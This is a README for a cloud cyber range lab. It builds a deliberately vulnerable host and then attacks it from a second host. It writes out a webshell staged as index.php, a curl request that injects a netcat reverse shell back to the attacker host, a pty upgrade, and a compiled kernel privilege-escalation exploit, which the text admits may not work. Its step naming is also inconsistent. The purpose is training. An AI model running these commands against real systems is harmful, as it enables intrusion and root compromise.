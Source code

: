 # Google Cloud Platform Cyber Range 

## Artifacts

* [Qwiklabs site](https://ce.qwiklabs.com/focuses/12629) 
* [Setup script](setup.sh), launch from Cloud Shell
* [Blue Ansible playbook](blue.yml)
* [Red Ansible playbook](red.yml) ???
* [Terraform script](main.tf)

## Instructions

1. Select your qwiklabs project from the dropdown menu in the top blue bar, i.e., ```qwiklabs-gcp-fa603bc97e11059a```
2. Start the Cloud Shell
3. Clone this repo

```
git clone https://github.com/MikeStorrs/cyber.git
cd cyber
```

4. Use Terraform to Deploy Cyber Range 

```
terraform init
terraform apply
```

5. SSH to the blue 35370 instance `gcloud compute ssh blue-35370 --zone us-east4-a`
6. Run Ansible script to make this instance vulnerable to Shellshock and libfutex

```
cd \
sudo ansible-playbook meetup/20190321/blue.yml
```

9. Wait for the instance to reboot, then re-log in

```
gcloud compute ssh blue-1 --zone us-east4-a
```

10. Now scan for exploitable vulnerabilities with `lem`

```
sudo su -
virtualenv venv
source venv/bin/activate
pip install lem
lem host assess --curation exploit-curation --kind stride --score 090000
lem exploit copy --id 35146 --source exploit-database --destination /var/www/html --curation exploit-curation
mv /var/www/html/exploit-database-35146.txt /var/www/html/index.php
```

11. Our remote code execution vulnerability is now ready to exploit. Now start two new Cloud Shell instances and ssh to red-1 from both.

```
gcloud compute ssh red-1 --zone us-east4-a
```

12. In the first `red-1` shell, install Netcat and start a listener on port 4444.

```
yum install -y nmap-ncat
nc -nlv 4444
```

13. In the second `red-1` shell, exploit the Shellshock vulnerability we staged in step 10. Replace the IP addresses with your blue-1 and red-1 IPs, respectively.

```
curl -X GET 'http://10.150.0.6/index.php?cmd=nc%20-nv%2010.150.0.7%204444%20-e%20/bin/bash'
```

14. Now in the first `red-1` shell, you should have a reverse shell to `blue-1`. Use this Python trick to get a tty and invoke bash.

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

15. Create a virtualenv, install lem, and look for a privilege escalation vulnerability.

```
cd /tmp
virtualenv venv
source venv/bin/activate
pip install lem
git clone https://github.com/redteam-project/exploit-curation
lem host assess --curation exploit-curation --kind stride --score 000009
```

Note that there is currently a [bug](https://github.com/redteam-project/lem/issues/5) in lem that prevents the exploit that maps to CVE-2014-3153 from returning, but for purposes of this lab we know that it maps to EDBID 35370.

16. Stage the exploit and pop root. **EDIT** - this doesn't appear to work , which could be the result of environment (GCE), or that cyber-range-target didn't properly downgrade the kernel rpm to a version with the libfutex vulnerability. In a way, this is exactly why this project matters -- it's hard to make cyber ranges repeatable, infrastructure-as-code environments. See the relevant [exploit-curation enhancement bug](https://github.com/redteam-project/exploit-curation/issues/1) to track progress, and check back later for an updated lab.

```
lem exploit copy --curation /tmp/exploit-curation --source exploit-database --id 35370 --destination /tmp/
mv exploit-database-35370.txt exploit.c
gcc -lpthread exploit.c -o exploit
./exploit
id -a
```
